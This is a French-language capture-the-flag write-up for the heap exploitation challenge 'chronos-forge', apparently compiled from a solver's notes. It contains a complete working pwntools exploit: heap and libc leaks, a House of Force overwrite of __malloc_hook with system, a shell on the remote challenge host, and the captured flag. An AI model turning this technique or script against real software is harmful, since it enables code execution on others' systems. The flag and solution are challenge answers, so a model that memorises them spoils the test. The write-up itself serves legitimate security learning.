



# Writeup : chronos-forge

Catégorie : pwn

Date de résolution : 2026-11-06

Technique principale : House of Force; glibc 2.27 tcache/unsorted leaks; __malloc_hook system

Outils observés : pwntools, checksec, objdump

Cible : CSCTF 2026 ID 9137

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-forge. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Exploitation

temper overflow; top=-1; evil=malloc_hook-top-0x20; write system+/bin/sh; trigger malloc(malloc_hook+8)

### Pourquoi ça marche

Remote verified on w01.ctf.chronos-security.ro:33454; exact-size unsorted reuse avoids a remainder; system via malloc_hook plus adjacent /bin/sh is more reliable remotely than one_gadget stack constraints.

### Notes locales conservées

# chronos-forge :  ID 9137

## Triage

1. Archive: `forge.tar.gz`, SHA-256 `c61d5f6e67951d87289558228ec4fbff3d6c52925a479c71f40cc25e16dd8692`.
2. `forge`: x86-64 PIE, not stripped; Full RELRO, stack canary, NX, PIE.
3. Bundle includes the matching Ubuntu 18.04 `libc.so.6` (glibc 2.27) and loader.
4. Source comment explicitly identifies House of Force.

## Recon / vuln

5. `temper()` calls `read_until_nl(p + strlen(p), notes[i].size)` instead of the remaining capacity.
6. A 0x40 note filled with 0x3f non-zero bytes leaves `strlen()` at the final user byte; temper reaches the top-chunk metadata.
7. The top-chunk size is overwritten with `0xffffffffffffffff`.
8. Two freed 0x40 chunks leak a heap pointer through the glibc-2.27 tcache fd.
9. A guarded 0x500 unsorted chunk, reused at exact size, leaks `main_arena+0x60`; offset is `libc+0x3ebca0` for the supplied libc.

## Exploit layout

10. First leaked heap user pointer: `H`.
11. After the tcache leak, an exact-size 0x500 chunk, a 0x500 guard, and the 0x40 overflow chunk, top header is `H + 0xb00`.
12. House of Force request: `evil = malloc_hook - top - 0x20`.
13. The next allocation returns `malloc_hook`.
14. Write `system` at `malloc_hook` and `/bin/sh` at `malloc_hook+8`.
15. Trigger with `malloc(size=malloc_hook+8)`, so the hook calls `system("/bin/sh")`.

## Validation

16. Local exploit succeeds with the bundled loader/libc.
17. Remote instance: `w01.ctf.chronos-security.ro:33454`.
18. Remote shell output contained the flag twice; no guessed flag was submitted.

## Journal
19. 2026-11-06T15:22:04Z unknown : Triage terminé: forge.tar.gz, binaire PIE/Full RELRO/canary/NX, source et libc glibc 2.27 analysés; overflow temper identifié.

## Journal
20. 2026-11-06T15:22:04Z unknown : Exploit local validé: tcache heap leak, unsorted exact-size libc leak, top-size -1, House of Force vers malloc_hook; system + /bin/sh déclenche un shell.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-forge
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
from pwn import *
from pathlib import Path

context.binary = ELF('/root/ctf/chronos-forge/evidence/forge', checksec=False)
context.log_level = 'info'
ROOT = Path('/root/ctf/chronos-forge/evidence')
LD = str(ROOT / 'ld-linux-x86-64.so.2')
LIBC = str(ROOT / 'libc.so.6')
HOST = 'w01.ctf.chronos-security.ro'
PORT = 33454

def start(remote_mode=False):
    if remote_mode:
        return remote(HOST, PORT)
    return process([LD, '--library-path', str(ROOT), str(ROOT / 'forge')])

def forge(io, size, data=b''):
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'size> ', str(size).encode())
    io.sendafter(b'content> ', data + b'\n')
    io.recvuntil(b'forged #')
    return int(io.recvline().strip())

def temper(io, idx, data):
    io.sendlineafter(b'> ', b'2')
    io.sendlineafter(b'index> ', str(idx).encode())
    io.sendafter(b'more content> ', data + b'\n')
    io.recvuntil(b'tempered.\n')

def inspect(io, idx):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'index> ', str(idx).encode())
    io.recvuntil(b': ')
    return io.recvline(keepends=True)

def inspect_bytes(io, idx, n=6):
    io.sendlineafter(b'> ', b'3')
    io.sendlineafter(b'index> ', str(idx).encode())
    io.recvuntil(b': ')
    raw = io.recvn(n)
    io.recvuntil(b'\n')
    return raw

def melt(io, idx):
    io.sendlineafter(b'> ', b'4')
    io.sendlineafter(b'index> ', str(idx).encode())
    io.recvuntil(b'melted.\n')

if __name__ == '__main__':
    io = start(args.REMOTE)
    # Leak a heap pointer from a tcache fd (glibc 2.27 has no safe-linking).
    a = forge(io, 0x40, b'A')
    b = forge(io, 0x40, b'B')
    melt(io, a)
    melt(io, b)
    c = forge(io, 0x40, b'')
    heap_fd = u64(inspect_bytes(io, c).ljust(8, b'\0'))
    heap_first = heap_fd
    log.info('heap leak: %#x', heap_first)

    # Consume the second tcache entry, then make a guarded unsorted chunk.
    x = forge(io, 0x40, b'X')
    l = forge(io, 0x500, b'')
    g = forge(io, 0x500, b'G')
    melt(io, l)
    # Exact-size reuse leaves no remainder between the next note and top.
    r = forge(io, 0x500, b'')
    arena_fd = u64(inspect_bytes(io, r).ljust(8, b'\0'))
    # Exact-size unsorted reuse exposes the unsorted-bin head
    # (main_arena + 0x60), at libc + 0x3ebca0 for this libc.
    libc_base = arena_fd - 0x3ebca0
    log.info('unsorted leak: %#x -> libc %#x', arena_fd, libc_base)

    # V overflow: 0x3f non-zero bytes leave strlen() at the last byte of
    # the user area; temper then reaches the top chunk size field.
    v = forge(io, 0x40, b'A' * 0x3f)
    temper(io, v, b'P' + p64(0) + p64(0xffffffffffffffff))

    # Known allocation layout from the two 0x40 tcache chunks and the
    # 0x500/0x500 guarded pair: top header is first_heap + 0xb00.
    top = heap_first + 0xb00
    malloc_hook = libc_base + 0x3ebc30
    evil = malloc_hook - top - 0x20
    log.info('top=%#x malloc_hook=%#x evil=%#x', top, malloc_hook, evil)
    forge(io, evil, b'')
    if args.SYSTEM:
        # Alternative trigger: hook=system and place /bin/sh immediately
        # after it; malloc(size=hook+8) calls system(hook+8).
        forge(io, 0x18, p64(libc_base + 0x4f420) + b'/bin/sh\0')
        trigger_arg = malloc_hook + 8
        log.info('system=%#x trigger_arg=%#x', libc_base + 0x4f420, trigger_arg)
    else:
        gadget_off = int(args.GADGET, 0) if args.GADGET else 0x4f302
        one_gadget = libc_base + gadget_off
        log.info('one_gadget=%#x', one_gadget)
        forge(io, 0x10, p64(one_gadget))
        trigger_arg = 1

    # The next malloc invokes __malloc_hook and should yield a shell.
    io.sendlineafter(b'> ', b'1')
    io.sendlineafter(b'size> ', str(trigger_arg).encode())
    io.sendline(b'echo FORGE_PWN; cat /flag 2>/dev/null || true; cat flag 2>/dev/null || true')
    print(io.recvrepeat(3).decode('latin-1', errors='replace'))
    io.close()
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{3csRWS4kHKJAgF8pQHCJ1QgJ}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
